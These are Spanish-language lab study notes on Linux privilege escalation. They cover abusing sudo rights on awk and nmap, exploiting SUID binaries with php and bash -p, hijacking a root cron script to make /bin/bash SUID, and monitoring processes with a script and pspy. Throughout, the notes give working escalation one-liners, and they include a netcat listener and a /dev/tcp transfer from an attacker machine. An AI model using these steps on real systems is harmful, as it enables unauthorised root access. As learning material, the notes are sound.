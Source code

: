 
desplegamos un contenedor bash de ubuntu latest
![[Pasted image 20250419165145.png]]
creamos un perfil utilizando useradd -d /home/ken -s /bin/bash -m ken

---------------
Privilegios a nivel de SUDOERS

sudo -l lista privilegio que podemos acceder o ejecutar 
es decir aparece la lista de cosas que se pueden ejecutar como root
En este caso listamos
![[Pasted image 20250419170149.png]]

Vemos que podemos ejecutar awk como root entonces para ello accedemos a la pagina
[awk | GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell)
y filtramos por awk 
En la seccion Sudo vemos que podemos ejecutar una bash como usuario root

Ejemplo 2
usamos sudo -l para listar sudoers
Observamos que tenemos nmap como sudoer
Nos metemos al directorio tmp
creamos una bash dentro de un archivo .nse
y por medio del usuario manolo ejecutamos nmap con el script y PWNED
ganamos acceso
y podemos crear una bash del usuario manolo

![[Pasted image 20250419170849.png]]

Ya dentro podemos crear una revershell con nc -nlvp 443
Para mayor comodidad y hacemos un tratamiento de la TTI

----------------
------------
PRIVILEGIOS SUID
Asi se asignan
chmod u+s
se muestran de la siguiente manera
![[Pasted image 20250419221148.png]]
Para abusar de ellos podemos ingresar a gtfobins y filtrar por php en este caso
```
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

![[Pasted image 20250419221337.png]]

utilizamos bash -p para generar una bash como root y elevar privilegios

Buscar Privilegios SUID
find / -perm -4000 2>/dev/null

-----------------------
Tareas Cron
Se ejecutan en el sistema a intervalos regulares de tiempo

lo instalamos
apt install cron
service start cron
crontab -e

ingresamos * * * * *  /bin/bash  /tmp/script.sh
Quiero que el usuario ejecute una bash que esta en script.sh en tmp

Creamos el script.sh dentro de /tmp/
![[Pasted image 20250419222404.png]]
podemos observar que se crea el output con el contenido de root de quien es el que lo ejecuta


Ahora ¿Como podemos saber que se esta ejecutando esta tarea si no sabemos que existe?

Ingresamos a /dev/shm
touch procmon.sh
![[Pasted image 20250419222820.png]]
Esto te indica cual es el usuario y comando que se ha ejecutado

nano procmon.sh

Ingresamos lo siguiente:

`#!/bin/bash`

`old_process=$(ps -eo user,command)`

`while true; do`
    `new_process=$(ps -eo user,command)`
    `diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"`
    `old_process=$new_process`
    `sleep 1`
`done`



### 1. `#!/bin/bash`

Esto es el **shebang**, que indica que el script debe ejecutarse con el intérprete de **Bash**.

---

### 2. `old_process=$(ps -eo user,command)`

Se guarda en la variable `old_process` una lista de los procesos actuales.  
Este comando muestra los procesos en ejecución con:

- `-e`: todos los procesos
    
- `-o user,command`: salida personalizada con el **usuario** que ejecuta el proceso y el **comando** usado.
    

---

### 3. `while true; do`

Esto inicia un **bucle infinito**. El script va a estar corriendo constantemente, comparando el estado de los procesos.

> ⚠️ En tu script hay un typo: escribiste `ture` en lugar de `true`. Eso hará que el script falle. Corrígelo a `true`.

---

### 4. `new_process=$(ps -eo user,command)`

Se guarda una nueva lista de procesos (actualizada) en la variable `new_process`.

---

### 5. `diff <(echo "$old_process") <(echo "$new_process")`

Este comando compara las dos listas de procesos (antes y después) usando `diff`.  
`<(...)` es una **sustitución de proceso**, que le da a `diff` dos entradas "tipo archivo" para comparar.

---

### 6. `| grep "[\>\<]"`

Filtra la salida del `diff` para mostrar solo las líneas que cambian:

- `<`: líneas que estaban antes pero ya no están (procesos terminados)
    
- `>`: líneas que no estaban antes pero ahora sí (procesos nuevos)
    

---

### 7. `| grep -vE "procmon|command|kworker"`

Este filtro **excluye** de la salida cualquier línea que contenga:

- `procmon`: probablemente para que el script no se detecte a sí mismo.
    
- `command`: elimina la línea del encabezado.
    
- `kworker`: ignora procesos del kernel que aparecen y desaparecen constantemente (ruido).
    

---

### 8.`old_process=$new_process`

Después de cada comparación, **deberías actualizar** `old_process` para que la próxima vuelta del bucle compare con el estado actual. De lo contrario, siempre se compara contra el estado original del script, lo cual no es útil en un monitoreo continuo.
![[Pasted image 20250419223802.png]]
Una vez quedaria asi 
![[Pasted image 20250419223927.png]]

Al tener malos permisos vamos a abusar del script y vamos a modificar su contenido de la siguiente manera

![[Pasted image 20250419224053.png]]

watch -n 1 ls -l /bin/bash

Ejecutamos esto para ver en cada segundo ver el permiso de este archivo
watch -n 1 ls -l /bin/bash


![[Pasted image 20250419224223.png]]
Ahora vemos que hay suid y escalaremos a root
![[Pasted image 20250419224300.png]]

Otra forma de detectar esta tarea en vez de ejecutar el script podemos utilizar la herramienta pspy64 de github

Una vez descargado vamos a transferirlo desde nuestra maquina de atacante a la maquina victima
![[Pasted image 20250419224709.png]]
Ejecutamos esto por netcat para compartirnos el archivp pspy

Desde la maquina victima ejecutamos

		cat < /dev/tcp/192.168.1.69/443 > pspy

Para corroborar que se ha transferido el archivo sin ningun error (en su integridad total)
podemos aplicar un `md5sum pspy   o   md5sumpspy64`
Comparamos ambos hashes y verificamos que esten iguales
![[Pasted image 20250419225043.png]]

le damos permisos de ejecucion `chmod +x pspy ` y lo ejecutamos en la maquina victima
![[Pasted image 20250419225314.png]]
Aqui ya con pspy podemos observar las tareas que se ejecutan icnluso con el PID

-------------------------
